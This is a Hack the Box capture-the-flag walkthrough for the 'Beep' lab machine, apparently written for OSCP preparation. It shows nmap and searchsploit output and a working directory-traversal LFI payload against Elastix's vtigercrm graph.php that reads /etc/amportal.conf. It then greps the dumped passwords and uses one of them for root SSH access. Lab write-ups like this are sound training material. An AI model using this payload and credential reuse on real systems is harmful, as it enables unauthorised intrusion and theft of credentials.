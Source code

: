 Title: Beep - Hack the Box
Date: 2020-04-26
Category: ctf
Tags: ctf, hack the box, oscp prep
Slug: htb-beep
Authors: Riley
Summary: Guide to Beep from Hack the Box

## Description

Beep is a very straightforward Unix box featuring LFI web app exploit.  The path goes pretty much straight to root.

## Reconnaissance

To start, we should see what services are available on this box.

**Nmap scan**
```bash
# nmap -Pn -oA nmap/beep -sV -sC 10.10.10.7
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-26 14:01 PDT
Nmap scan report for 10.10.10.7
Host is up (0.12s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/https?
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com
```

There's a fair bit going on here, but a good place to start would be the HTTPS server on 443

### Examining HTTPS/443: Elastix server

The server hosts an Elastix site.

![f0f956c6b2374e07b2536db4d175395c.png](images/ctf/htb/beep/f0f956c6b2374e07b2536db4d175395c.png)

A quick `searchsploit` reveals several exploits to choose from, one of note that may work is an Local File Inclusion (LFI) vulnerability.

```bash
# searchsploit elastix
-------------------------------------------------------------------------------------------------------------------- ----------------------------------------│
 Exploit Title                                                                                                      |  Path                                  │
                                                                                                                    | (/usr/share/exploitdb/)                │
-------------------------------------------------------------------------------------------------------------------- ----------------------------------------│
Elastix - 'page' Cross-Site Scripting                                                                               | exploits/php/webapps/38078.py          │
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                             | exploits/php/webapps/38544.txt         │
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                       | exploits/php/webapps/34942.txt         │
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                    | exploits/php/webapps/37637.pl          │
Elastix 2.x - Blind SQL Injection                                                                                   | exploits/php/webapps/36305.txt         │
Elastix < 2.5 - PHP Code Injection                                                                                  | exploits/php/webapps/38091.php         │
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                              | exploits/php/webapps/18650.py          │
------------------------------------------------------------------------------------------------------------------- | ---------------------------------------│
```

Exploiting an LFI would allow us to snoop on otherwise inaccessible files, such as configuration files.  In web apps, these usually contain sensitive data such as user account names and passwords; we could potentially use these to access another service (such as MySQL) or get access to the server itself.

I couldn't exploit the server by running the exploit file, but there is a comment in the soruce code that indicates what file path was used; we should be able to copy and paste the value into a browser manually.

```perl
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

![272cfa5dfa134126a48c44c9e786bb4d.png](images/ctf/htb/beep/272cfa5dfa134126a48c44c9e786bb4d.png)

The exploit worked!  This is a large text file, so it would be best to sort it using some bash utilities.  For this, I copy and pasted the the content into a new file `amportal.conf` manually.

```bash
# cat amportal.conf | tr " " "\n" | sort | uniq | grep USER
AMPDBUSER
AMPDBUSER:
AMPDBUSER/AMPDBPASS
AMPDBUSER=asteriskuser
AMPMGRUSER
AMPMGRUSER:
AMPMGRUSER=admin
ARI_ADMIN_USERNAME=admin
CDRDBUSER:
USER

# cat amportal.conf | tr " " "\n" | sort | uniq | grep PASS                                                                          
AMPDBPASS:
AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPDBUSER/AMPDBPASS
AMPMGRPASS:
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
ARI_ADMIN_PASSWORD
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
CDRDBPASS:
FOPPASSWORD:
FOPPASSWORD=jEhdIekWmdjE
#FOPPASSWORD=passw0rd
localhost=(root)NOPASSWD:
```

## Getting root

We can quickly test the password `jEhdIekWmdjE` to see what we now have access to.  A good first target would be root on SSH.

*Note: I had to add the `-oKexAlgorithms=diffie-hellman-group-exchange-sha1` as SSH was giving an error `no matching key exchange method found`.*

```bash
# ssh -oKexAlgorithms=diffie-hellman-group-exchange-sha1 root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can not be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7 password: jEhdIekWmdjE
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami && hostname
root
beep
[root@beep ~]# wc -c root.txt
33 root.txt
[root@beep ~]#
```

The password lets us authenticate as root, giving us total control of the target server.

Thus concludes this walkthrough.  Thank you for reading.
